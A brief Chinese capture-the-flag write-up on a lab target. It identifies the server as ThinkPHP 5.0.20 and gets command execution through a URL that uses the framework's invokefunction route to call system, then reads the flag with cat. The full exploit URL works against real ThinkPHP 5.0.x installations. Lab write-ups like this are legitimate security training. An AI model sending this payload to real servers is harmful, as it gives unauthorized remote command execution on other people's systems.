 首先打开靶场

![2](./import/2.png)

发现该网站是ThinkPHP 框架搭建的于是我们搜索可得

![1](./import/1.png)

于是我们随机找一个版本访问

![3](./import/3.png)

可得该网展使用的V5.0.20版本

于是我们访问http://61.147.171.105:49314/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

![4](./import/4.png)

命令成功执行

于是我们使用cat命令打开flag可得

![5](./import/5.png)

成功拿到flag



